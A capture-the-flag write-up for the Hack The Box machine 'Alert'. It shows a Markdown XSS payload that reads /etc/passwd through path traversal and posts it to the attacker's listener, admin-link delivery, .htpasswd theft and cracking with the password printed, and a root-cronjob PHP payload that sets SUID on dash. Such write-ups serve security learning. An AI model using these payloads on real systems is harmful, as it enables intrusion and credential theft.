


---
tags:
  -  htb
---
# HTB: [Alert](https://app.hackthebox.com/machines/Alert)

>[!tip]- Spoiler Summary
> This machine featured an application vulnerable to Local File Inclusion (LFI) and a Markdown-based XSS. The XSS vulnerability was escalated by leveraging a "Contact Us" form where links could be sent to an administrator. Combining XSS and LFI allowed access to sensitive files like `/etc/passwd` and `/etc/apache2/sites-available/000-default.conf`, revealing credentials and further access to Basic HTTP authentication for a subdomain. After brute-forcing Basic Auth, I gained access to SSH as `albert`. The machine included a misconfigured cronjob that executed a writable configuration file, allowing privilege escalation to `root`.

## Enumeration

### `nmap`

#### TCP

- Target: `alert.htb 10.10.11.44`
- Command: `nmap -v --reason -Pn -T4 -p- --open -sCV -oA nmap_tcp-alert.htb alert.htb

##### 22/tcp-ssh `OpenSSH` `8.2p1 Ubuntu 4ubuntu0.11` `(Ubuntu Linux; protocol 2.0)`

```text
__ssh-hostkey:
  3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
  256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
```

##### 80/tcp-http `Apache httpd` `2.4.41` `((Ubuntu))`

```text
__http-title:
Alert - Markdown Viewer
Requested resource was index.php?page=alert
__http-server-header:
Apache/2.4.41 (Ubuntu)
__http-methods:
  Supported Methods: GET HEAD POST OPTIONS
```

### Manual Enumeration



```console
$ feroxbuster -k -u http://alert.htb -w ~/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C404,403 -d1
...
404      GET        9l       31w      271c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET       23l       48w      660c http://alert.htb/index.php => index.php?page=alert
200      GET      182l      385w     3622c http://alert.htb/css/style.css
301      GET        9l       28w      308c http://alert.htb/uploads => http://alert.htb/uploads/
301      GET        9l       28w      304c http://alert.htb/css => http://alert.htb/css/
302      GET       23l       48w      660c http://alert.htb/ => index.php?page=alert
301      GET        9l       28w      309c http://alert.htb/messages => http://alert.htb/messages/
[####################] - 7m    220551/220551  0s      found:6       errors:38
[####################] - 7m    220545/220545  516/s   http://alert.htb/
```

```console
$ ffuf -w ~/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -u http://alert.htb/index.php/?page=FUZZ -ac -x http://localhost:8080
...
:: Progress: [9513/9513] :: Job [1/1] :: 349 req/sec :: Duration: [0:00:35] :: Errors: 0 ::
```

```http
POST /visualizer.php HTTP/1.1
Host: alert.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://alert.htb/index.php?page=alert
Content-Type: multipart/form-data; boundary=---------------------------29419943442798229153647798008
Content-Length: 285
Origin: http://alert.htb
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------29419943442798229153647798008
Content-Disposition: form-data; name="file"; filename="index.md"
Content-Type: text/markdown

> [!tip] For me, not you, but you might like it too.

👈 👀

-----------------------------29419943442798229153647798008--
```

```http
HTTP/1.1 200 OK
Date: Tue, 03 Dec 2024 16:09:50 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 839
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
<head>
...
</head>
<body>
    <blockquote>
<p>[!tip] For me, not you, but you might like it too.</p>
</blockquote>
<p>👈 👀</p><a class="share-button" href="http://alert.htb/visualizer.php?link_share=674f2d4e9e3892.54761308.md" target="_blank">Share Markdown</a></body>
</html>
```

This payload exploits XSS for the shareable link:

```http
POST /visualizer.php HTTP/1.1
Host: alert.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://alert.htb/index.php?page=alert
Content-Type: multipart/form-data; boundary=---------------------------34389943702930998061652516639
Content-Length: 257
Origin: http://alert.htb
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------34389943702930998061652516639
Content-Disposition: form-data; name="file"; filename="x.md"
Content-Type: text/markdown

[x](javascript:prompt(document.cookie))

-----------------------------34389943702930998061652516639--
```

```console
$ ffuf -w ~/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://alert.htb -H 'Host: FUZZ.alert.htb' -ac
...
statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 96ms]
```

But it's behind Basic HTTP authentication. I brute-forced using Burp and `top-usernames-shortlist.txt` + `xato-net-10-million-passwords-1000.txt`, but no luck.

The "Contact Us" form allows sending a link which gets clicked by the administrator. This can be used in conjunction with the above XSS vulnerability to exfil data via LFI:

This `POST` request:

```http
POST /visualizer.php HTTP/1.1
Host: alert.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://alert.htb/index.php?page=alert
Content-Type: multipart/form-data; boundary=---------------------------34389943702930998061652516639
Content-Length: 449
Origin: http://alert.htb
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------34389943702930998061652516639
Content-Disposition: form-data; name="file"; filename="x.md"
Content-Type: text/markdown

<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.4:443", {
      method: "POST",
      body: data
  }));

</script>

-----------------------------34389943702930998061652516639--
```

Gives this link: `http://alert.htb/visualizer.php?link_share=674f4480b93313.60460970.md`

Which I can send to the administrator:

```http
POST /contact.php HTTP/1.1
Host: alert.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://alert.htb/index.php?page=contact
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Origin: http://alert.htb
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=x%40x.x&message=http://alert.htb/visualizer.php?link_share=674f4480b93313.60460970.md
```

And receive on my listener:

```console
$ rlwrap nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.44 60224
POST / HTTP/1.1
Host: 10.10.14.4:443
Connection: keep-alive
Content-Length: 1960
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://alert.htb
Referer: http://alert.htb/
Accept-Encoding: gzip, deflate

<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
</pre>
```

I check `/home/david/.ssh/id_rsa` for a quick win but no luck.

However, I can fetch `/etc/apache2/sites-available/000-default.conf`:

```text
<VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

And `/var/www/statistics.alert.htb/.htpasswd`:

```text
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

`hashcat` cracks it with `rockyou.txt`:

```text
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
```

Now I can view `statistics.alert.htb`:



## Remote Code Execution

The credentials recovered for Basic Auth above are also valid for SSH login as `albert`.

## Privilege Escalation

I noticed that `albert` is in what looks like a privileged group:

```console
albert@alert:/opt/website-monitor$ id
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```

There's a config file I should be able to edit:

```console
albert@alert:/opt/website-monitor$ find / -group management 2>/dev/null
/opt/website-monitor/config
/opt/website-monitor/config/configuration.php
```

```php
albert@alert:/opt/website-monitor/config$ cat configuration.php
<?php
define('PATH', '/opt/website-monitor');
?>
```

There's a cronjob:

```console
2024/12/03 18:15:10 CMD: UID=0     PID=526445 | /usr/bin/php -f /opt/website-monitor/config/configuration.php
```

My payload:

```console
albert@alert:/tmp/.../config$ pwd
/tmp/.../config
albert@alert:/tmp/.../config$ cat configuration.php
<?php system("bash -c 'chmod u+s /usr/bin/dash'"); ?>
```

## Post-exploitation

```bash
bash-5.0# cat php_bot.sh
#!/bin/bash

MONITOR_DIR="/opt/website-monitor/config"

if [ ! -d "$MONITOR_DIR" ]; then
    echo "The file $MONITOR_DIR does not exist."
    exit 1
fi

inotifywait -m -e modify --format '%w%f %e' "$MONITOR_DIR" | while read fullpath event
do
    filename=$(basename "$fullpath")
    echo "The file $filename has been modified."
    /usr/bin/sleep 3
    /usr/bin/php -f /opt/website-monitor/config/configuration.php >/dev/null 2>&1
    /usr/bin/cp /root/scripts/config/configuration.php /opt/website-monitor/config/
    /usr/bin/chmod -R 775 /opt/website-monitor/config
    /usr/bin/chown -R :management /opt/website-monitor/config
    echo "$filename restored."
done
```
